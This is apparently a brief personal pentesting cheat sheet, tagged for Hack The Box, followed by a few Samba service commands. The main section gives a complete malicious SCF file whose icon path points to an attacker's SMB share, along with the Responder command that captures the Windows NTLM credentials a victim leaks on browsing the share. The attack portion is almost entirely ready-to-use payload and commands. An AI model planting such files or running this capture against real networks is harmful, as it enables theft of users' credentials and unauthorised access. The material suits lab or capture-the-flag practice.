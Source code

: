 ```yaml
---
category: Uncategorized
tags: []
---
```

# SMB share - SCF file Attacks


Name it: 

**@attack.scf**

 ```vim
 [Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
 ```

Start responder and upload @attack.scf

```bash
sudo responder -wrf --lm -I <Interface>
```
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


#smb #driver #htb #responder #windows

# Samba - Linux
### Start / Stop service

```bash
sudo service smbd stop/start
```

### Configuration file
````bash
/etc/samba/smb.conf
````
